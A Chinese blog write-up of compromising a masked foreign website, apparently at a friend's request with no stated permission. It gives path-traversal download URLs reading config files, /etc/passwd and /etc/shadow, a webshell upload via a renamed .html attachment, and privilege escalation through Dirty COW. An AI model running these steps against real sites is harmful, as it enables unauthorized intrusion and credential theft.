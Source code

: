 ```yaml
---
title: "记一次渗透之从后台到提权"
date: 2019-03-12T21:11:41+08:00
draft: false
tags: ['pentest']
categories: ['渗透测试']
---
```


某日朋友发来一个站让搞！搞搞搞！

<!--more-->

![](https://y4er.com/img/uploads/20190509168008.jpg)

国外站，翻译的我尴尬证都犯了。

![](https://y4er.com/img/uploads/20190509166186.jpg)

习惯性先发文章看看编辑器上传附件什么的。

![](https://y4er.com/img/uploads/20190509163882.jpg)

四处上传，首先尝试编辑器处上传图片，经验告诉我越low的编辑器越好拿shell。

![](https://y4er.com/img/uploads/20190509167958.jpg)

我错了，白名单+上传重命名，smarteditor编辑器，各种截断尝试，突破不了。

![](https://y4er.com/img/uploads/20190509161256.jpg)

![](https://y4er.com/img/uploads/20190509168630.jpg)

这编辑器无敌。随后发现另外三处均是调用此编辑器上传，暂时换思路。

在已经发布的文章中发现绝对路径

```
http://xxx.com/download.php?dnfile=20190228_012000_0978115.jpg&file=/home/xxx/webapp/../public_html/upload_dir/board/16887879979878fa23f2.jpg
```

![](https://y4er.com/img/uploads/20190509169487.jpg)

测试后发现`public_html`为根目录，决定挖挖注入，万一是root没降权就舒服了。

`http://www.xxx.com/?module=xx&action=xx&iPopNo=1&seq_cd=1`

经过手动加sqlmap测试，发现后台存在时间盲注，由于国外站点访问不稳定的原因，遂放弃，在后期getshell之后发现用户不是`root`并且权限死得很，为之庆幸并没有在此处浪费时间。

到此处思路死了。编辑器getshell无解，sql注入getshell卒。还有什么思路呢？

我们之前爆出绝对路径的url访问后发现会自动下载

```
http://xxx.com/download.php?dnfile=20190228_012000_0978115.jpg&file=/home/xxx/webapp/../public_html/upload_dir/board/16887879979878fa23f2.jpg
```

存在任意文件下载吗？先构造一下尝试

```
http://xxx.com/download.php?dnfile=download.php&file=/home/xxx/webapp/../public_html/download.php
```

![](https://y4er.com/img/uploads/20190509166054.jpg)

bingo！

![](https://y4er.com/img/uploads/20190509167259.jpg)

存在任意文件下载，我们找下数据库配置文件

```
http://xxx.com/download.php?dnfile=config.php&file=/home/xxx/webapp/../public_html/index.php
```

index.php一般会引入数据库的config.php

![](https://y4er.com/img/uploads/20190509169463.jpg)

重新构造

```
http://www.xxx.com/download.php?dnfile=config.php&file=/home/xxx/webapp/../public_html/../webapp/config.php
```

![](https://y4er.com/img/uploads/20190509168321.jpg)

数据库配置get！后发现没开3306外链，思路断掉。

在这个时候我重新回头看这个任意文件下载，读一下敏感文件试试？

```
my.cnf
```

![](https://y4er.com/img/uploads/20190509162699.jpg)

password被注释掉，无用。

```bash
/etc/passwd
/etc/shadow
/etc/profile
```

![](https://y4er.com/img/uploads/20190509167603.jpg)

![](https://y4er.com/img/uploads/20190509164450.jpg)

没发现有可用信息。

下载apache配置文件

```
http://www.xxx.com/download.php?dnfile=1.php&file=/usr/local/apache/conf/httpd.conf
```

![](https://y4er.com/img/uploads/20190509160563.jpg)

惊了！html可以被当作php文件！

于是我去编辑器中尝试上传这几种文件，仍以失败告终。

但是附件的我们还没试！

![](https://y4er.com/img/uploads/20190509162424.jpg)

抓包改后缀，返回文章查看路径

```
http://www.xxx.com/download.php?dnfile=php.jpg.html&file=/home/xxx/webapp/../public_html/upload_dir/board/13303476456487546a3cd.html
```

拼接

```
http://www.xxx.com/upload_dir/board/13303476456487546a3cd.html
```

![](https://y4er.com/img/uploads/20190509167159.jpg)

getshell!

后面的就不说了，提权就是脏牛+[bypass disablefunc](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)一条龙，没啥亮点。

![](https://y4er.com/img/uploads/20190509168941.jpg)

本章结束，寡人欲休。